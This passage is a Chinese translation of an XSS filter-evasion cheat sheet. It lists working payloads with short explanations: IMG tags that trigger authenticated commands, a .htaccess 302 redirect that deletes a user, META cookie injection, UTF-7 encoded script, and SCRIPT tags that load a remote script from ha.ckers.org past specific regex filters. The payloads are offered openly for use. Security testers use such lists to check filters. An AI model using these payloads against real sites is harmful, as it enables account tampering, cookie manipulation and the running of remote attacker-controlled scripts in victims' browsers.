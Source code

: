 ### 嵌入命令的 IMG

它是工作于那些需要用户认证后才可以执行命令的当前域页面。它将可以创建删除用户（如果访问者是管理员），或是寄送某些凭证等等，虽然他是较少被使用但是是非常有用的。

```
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode"> 
```

### 嵌入命令的 IMG II

这是更加的可怕因为并没有特别的标识符去使它看起开来可疑。除非不允许引入第三方域的图片。这个向量是使用一个 302 or 304（或其他可行方案）去重定向一个图片地址为带有某些命令的地址。因此一个正常的图片标签代码`<IMG SRC="a.jpg">`可以是带有命令的 xss 向量。但是用户看到的仅仅是正常的图片链接地址。下面是一个.htaccess（apche 下）配置文件去完成这个向量。（感谢 Timo 为这部分。）

```
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser 
```

### Cookie 篡改

这是公认的不着边际，但是我已经发下一个例子是用 `<META` 去覆盖 cookie。另一个例子是有些网站使用 cookie 中的某些数据去呈现在当前访问者的网页中为仅仅他自己而不是从远程数据库中获取。当这两个清静联系在一起的时候，你可以通过修改 cookie 让 javascript 输入到用户页面中。（你可以借此让用户退出，改变用户的状态，甚至让用户以你的身份登录）

```
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>"> 
```

### UTF-7 编码

如果存在 xss 的页面没有提供页面 charset header，或是对于任何被设为 UTF-7 的浏览器，我们可以利用下面的代码。（感谢 Roman Ivanov 的提供），点击这儿为这个例子。（如果页面设置是自动识别编码且 content-types 没有被覆盖，在 ie 浏览器或使用了 IE 渲染引擎的 Netscape 8.1，咋你不需要声明 charset ）在没有改变编码的情况下它是不能工作在任何现代浏览器，这是为什么它被标记为完全不支持。Watchfire 发现这个漏洞在 Google's 自定义 404 脚本中.

```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4- 
```

### 使用 HTML 引用封装的 xss

他是被测试在 ie，具体因情况而异。它是为了绕过那些可以输入 `<SCRIPT>` 但不允许输入 `<SCRIPT SRC...`，通过正则`/<script[^>]+src/i`进行过滤的 xss 过滤区。

```
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"> 
```

为了执行 xss 代码在那些允许输入`<SCRIPT>` 但不允许 `<script src...`靠正则拼配`/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i` （这个是重要的，因为我已经看到这个正则在实际环境中。）

```
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

另一个逃避相同正则 `/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i`的 xss 代码

```
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```
